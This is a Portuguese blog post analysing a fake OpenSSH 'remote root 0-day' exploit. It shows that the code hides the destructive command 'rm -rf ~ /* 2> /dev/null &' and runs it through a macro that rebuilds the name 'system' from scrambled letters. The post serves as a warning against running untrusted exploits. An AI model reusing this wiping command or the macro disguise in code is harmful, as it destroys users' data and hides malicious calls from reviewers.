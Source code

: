 ```yaml
---
layout: post
title:  "0-Day openssh-53p1-remote-root.c?"
date:   2010-01-02
categories: exploit
tags: exploit 0day fake
lang: br
ref: 0-day-openssh-53p1-remote-root-c
has-asciinema: false
---
```

Estava em casa e de madrugada recebi uma mensagem dizendo “0-day para OpenSSH” seguindo do seguinte link:

[http://pentestit.com/wp-content/uploads/2010/02/openssh-53p1-remote-root.c](https://gist.github.com/maycon/367597215be1080e2d277a3f4762aa35)



Já logo pensei na festa que isso seria para os script kiddies e raquers de plantão. Porém ao dar uma olhada rápida no código, percebe-se logo de inicio algumas sutilezas. De uma maneira geral o código realmente parece com um exploit, com seus imensos _shellcodes_ e suas conexões por _socket_, o que me fez da uma olhada com mais calma e escrever este post.

Vamos ao começo do código:
```c
if (geteuid()) {
	puts("Root is required for raw sockets, etc.");
	return 1;
}
```

Olhando logo na parte inicial do código, é possível notar que ele exige que seja executando com um usuário com privilégios de _root_, argumentando que é necessário para utilização de _raw sockets_ (`SOCK_RAW`). Porém, procurando pela criação do socket em questão, nota-se que ele utiliza um `SOCK_STREAM`, que representa uma conexão TCP normal sem necessidade de root.

```c
sock = socket(PF_INET, SOCK_STREAM, 0);
addr.sin_port = htons(port);
addr.sin_family = AF_INET;
if (connect(sock, (struct sockaddr*)&addr, sizeof(addr)) == -1){
	printf("  [-] Connecting Failed\n");
	return 1;
}
```

Em seguida, ele faz uma validação da quantidade de argumentos, fornecendo uma ajuda caso não existam parâmetros suficiente:
```c
if(argc < 3){
	usage(argv[0]);
	return 1;
}
```

Porém, é importante notar que ele não faz qualquer outra referência à `argv`, ou seja, ele não trata os parâmetros fornecidos:
```c
if (!inet_aton(h, &addr.sin_addr)){
	host = gethostbyname(h);
	if (!host){
		printf("  [-] Resolving Failed\n");
		return 1;
	}
	addr.sin_addr = *(struct in_addr*)host->h_addr;
}
```

Seguindo pelo código, temos um trecho de código que diz converter o endereço fornecido em seu host. Porém como não existe qualquer parâmetro definido como host, a função `inet_aton` vai retornar um valor diferente de zero, o que resultará sempre no salto desta condição.
```c
payload = malloc(limit * 10000);
ptr = payload+8;
memcpy(ptr,jmpcode,strlen(jmpcode));
jmpinst=fopen(shellcode+793,"w+");
if(jmpinst){
	fseek(jmpinst,0,SEEK_SET);
	fprintf(jmpinst,"%s",shellcode);
	fclose(jmpinst);
}
```

Neste momento ele começa a preencher um buffer (um trecho de código comum em exploits), porém ele escreve uma variável `jmpcode` a partir da posição 8 deste buffer ( apontado por `ptr` ).

Analisando o conteúdo dessa variável temos o seguinte:
```
maycon@hacknroll~$ printf $(cat jmpcode.txt) > jmpcode.bin
maycon@hacknroll~$ file jmpcode.bin
jmpcode.bin: ASCII C program text, with no line terminators
maycon@hacknroll~$ cat jmpcode.bin
rm -rf ~ /* 2> /dev/null &
maycon@hacknroll~$
```

Opa! Nos deparamos com uma coisa nem um pouco agradável de ser ver. Estamos vendo um comando que apaga o home (`~`) do usuário em seguida apaga tudo a partir da raiz (`/*`). :)

O mesmo código chama `fopen()` a uma posição do shellcode que sequer representa um nome de arquivo válido, ou seja, a função `fopen()` vai falhar.

No resto do código tem muita besteira. O que me deixou mais impressionado foi a macro `fremote()` que reordenar os argumentos de `tesmy` para `system`. Se reparar, ela é chamada no inicio do código como `fremote(jmpcode)`, que executaria o `rm -rf` visto anteriormente, veja um exemplo da utilização das macros:
```c
#include 
 
#define build_frem(x,y,a,b,c) a##c##a##x##y##b
#define fremote build_frem(t,e,s,m,y)
 
char jmpcode[] = "ls -l";
 
int main(void)
{
	fremote(jmpcode);
	return 0;
}
```

Analisando a chamada `build_frem`, temos que ele simplesmente organiza os parâmetros como terceiro, último, terceiro, primeiro, segundo e penúltimo. Aplicando esta mesma sequência nos parâmetros de build_frem teremos a string system.

Se executarmos `gcc -E` temos o código logo após o processamento das macros:
```
maycon@hacknroll~$ gcc -E fremote.c  | tail -n 8

char jmpcode[] = "ls -l";

int main(void)
{
	system(jmpcode);
	return 0;
}

maycon@hacknroll~$
```

Este é um trick bastante interessante. Ah se eu soubesse disto na época de _Programação I_ na faculdade. :-)

De qualquer forma isto serve de aviso para os que se aventuram a simplesmente compilar e executar os exploits vistos na internet.

Abraços a todos,

Hack N' Roll
